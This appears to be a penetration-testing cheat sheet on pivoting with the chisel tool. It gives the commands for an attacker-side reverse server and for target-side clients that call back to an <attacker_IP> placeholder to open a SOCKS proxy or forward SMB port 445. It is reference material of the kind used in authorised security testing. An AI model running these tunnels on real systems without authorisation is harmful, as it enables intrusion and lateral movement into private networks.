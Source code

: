 On the attacking machine run:

```bash
sudo ./chisel server -p 8002 --reverse
```

On target run:

Linux:

```bash
./chisel client <attacker_IP>:8002 R:1080:socks
```

Windows:

```bash
chisel.exe client <attacker_IP>:8002 R:1080:socks
```

Example of port forwarding single port:

```bash
./chisel client <attacker_IP>:8002 R:445:127.0.0.1:445
```
